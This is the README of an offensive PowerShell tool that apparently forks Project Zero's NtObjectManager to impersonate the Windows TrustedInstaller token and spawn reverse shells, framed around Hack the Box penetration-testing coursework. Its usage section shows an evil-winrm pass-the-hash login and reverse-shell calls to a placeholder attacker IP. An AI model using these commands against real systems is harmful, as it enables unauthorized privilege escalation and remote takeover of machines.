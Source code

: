 # Evil-NTObjectManager: Fork of NtObjectManager from Google Project Zero with Additional Privilege Escalation Functionality

While going through the [Hack the Box Academy](https://academy.hackthebox.com) Penetration Tester Role Path (the course material for Hack the Box's all-powerful Certified Penetration Testing Specialist, or CPTS, certification), one of things I was tasked with doing was using the SeImpersonatePrivilege, SeDebugPrivilege, and other such escalation vectors within Windows targets to quickly and efficiently break out of restricted environments and find flags hidden in the target systems. In the Windows Privilege Escalation module, one of the ways in which this can be achieved is through manipulation of Windows services using the `sc.exe` binary, i.e. with the `binpath=` argument. However, there are a few caveats to this approach:

1. The process is very destructive and thus easily detectable by countermeasures that the target may have in place.
2. If you use `sc` to load, say, a Metasploit payload, it's not going to last for very long; you need to spawn a secondary shell quickly before the service start attempt times out.
3. If a service is already running, you need to stop it before you can configure it.

Knowing this, I thought to myself, "What core Windows services are stopped by default, have high privileges, and are easy to impersonate?" That's when I remembered that I had previously watched [this John Hammond video](https://youtu.be/Vj1uh89v-Sc?si=my7yy2IFgrFNsdYG) which mentioned one such service: the all-powerful [TrustedInstaller](https://reddit.com/r/Windows10/comments/17m3cyr/how_does_one_become_trustedinstaller/) which has some privileges, such as the ability to delete Windows core components or inject executables deep into the `C:\Program Files\WindowsApps` directory where even Defender won't have permission to do anything, that even `NT AUTHORITY\SYSTEM` does not have. However, the method that Hammond outlines in the video was for a time a very tedious process that involved typing 7 so sequential commands into the PowerShell console just to grab the permission token. Was, that is, until now.

In this project, I've managed to wrap the entire process of starting TrustedInstaller only to immediately impersonate the token into one cmdlet: `Invoke-TrustedInstaller`. In addition, I've added two additional functions for spawning and fully backgrounding new reverse shells from entirely within the context of the highest privileged Windows service of them all.

## Usage

```bash
evil-winrm -i x.x.x.x -u Administrator -H 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx' -s "$PWD/Evil-NtObjectManager"
```
```powershell
<SNIP>
*Evil-WinRM* PS C:\> TrustedInstaller.ps1
```

```powershell
Import-Module .\TrustedInstaller.ps1
```

```powershell
Invoke-TrustedInstaller
```

```powershell
Invoke-TIRevShell -IP x.x.x.x -Port 4444
Invoke-TIRevShellTLS -IP x.x.x.x -Port 4444
```